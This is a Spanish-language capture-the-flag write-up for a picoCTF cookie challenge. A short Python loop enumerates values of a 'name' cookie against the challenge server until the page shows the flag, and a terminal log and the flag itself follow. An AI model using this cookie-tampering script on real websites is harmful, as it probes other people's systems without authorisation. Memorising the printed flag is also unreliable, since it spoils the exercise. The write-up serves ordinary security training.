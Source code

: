 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)

## Pistas
(none)


## Solución
Este script de Python realiza solicitudes HTTP a un servidor web en `http://mercury.picoctf.net:6418/` con diferentes valores de cookies. El objetivo es encontrar una cookie que devuelva una respuesta que contiene la bandera (`picoCTF{...}`). 

1. Se importan las bibliotecas necesarias: `requests` para realizar solicitudes HTTP y `re` para realizar coincidencias de expresiones regulares.
2. Se define la URL del servidor web: `http://mercury.picoctf.net:6418/`.
3. Se itera sobre un rango de 0 a 20 (ambos inclusive) utilizando un bucle `for`.
4. Dentro del bucle, se establece un diccionario de cookies con la clave `'name'` y su valor basado en el índice actual del bucle. Este valor se formatea como una cadena con el valor del índice (`'{}'.format(i)`).
5. Se realiza una solicitud GET al servidor web con las cookies definidas.
6. Se comprueba si la respuesta contiene la cadena `'picoCTF{'` utilizando una instrucción condicional `if`.
7. Si la cadena está presente en la respuesta, se utiliza una expresión regular para encontrar el patrón `'picoCTF{.*}'` en el texto de la respuesta. La bandera encontrada se almacena en la variable `flag`.
8. Se imprime la bandera.

El script encontró la bandera `picoCTF{3v3ry1_l0v3s_c00k135_88acab36}`

picoCTF{3v3ry1_l0v3s_c00k135_88acab36}

```
  If not click the link.arcf99-picoctf@webshell:~$ wget http://mercury.picoctf.net:6418/ -H "Cookie: name=3"7
--2024-03-09 04:13:58--  http://mercury.picoctf.net:6418/
Resolving mercury.picoctf.net (mercury.picoctf.net)... 18.189.209.142
Connecting to mercury.picoctf.net (mercury.picoctf.net)|18.189.209.142|:6418... connected.
HTTP request sent, awaiting response... 302 FOUND
Location: http://mercury.picoctf.net:6418/ [following]
--2024-03-09 04:13:58--  http://mercury.picoctf.net:6418/
Connecting to mercury.picoctf.net (mercury.picoctf.net)|18.189.209.142|:6418... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2048 (2.0K) [text/html]
Saving to: 'index.html.1'

index.html.1                                             100%[=================================================================================================================================>]   2.00K  --.-KB/s    in 0s      

2024-03-09 04:13:58 (255 MB/s) - 'index.html.1' saved [2048/2048]

--2024-03-09 04:13:58--  ftp://cookie/%20name=37
           => ' name=37'
Resolving cookie (cookie)... failed: Name or service not known.
wget: unable to resolve host address 'cookie'
FINISHED --2024-03-09 04:13:58--
Total wall clock time: 0.04s
Downloaded: 1 files, 2.0K in 0s (255 MB/s)
arcf99-picoctf@webshell:~$ curl http://mercury.picoctf.net:6418/ -H "Cookie: name=3"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
arcf99-picoctf@webshell:~$ python
Python 3.10.6 (main, Aug 10 2022, 11:40:04) [GCC 11.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> import re
>>>     cookies = {'name':'{}'.format(i)}
  File "<stdin>", line 1
    cookies = {'name':'{}'.format(i)}
IndentationError: unexpected indent
>>> import requests
>>> import re
>>> for i in range(21):
...     cookies = {'name':'{}'.format(i)}
...     r = requests.get(url, cookies=cookies)
...     if 'picoCTF{' in r.text:
...             flag = re.findall('picoCTF\{.*\}', r.text)[0]
...             print(flag)
... 
picoCTF{3v3ry1_l0v3s_c00k135_88acab36}
>>> 
>>> 
```


## Notas adicionales

## Referencias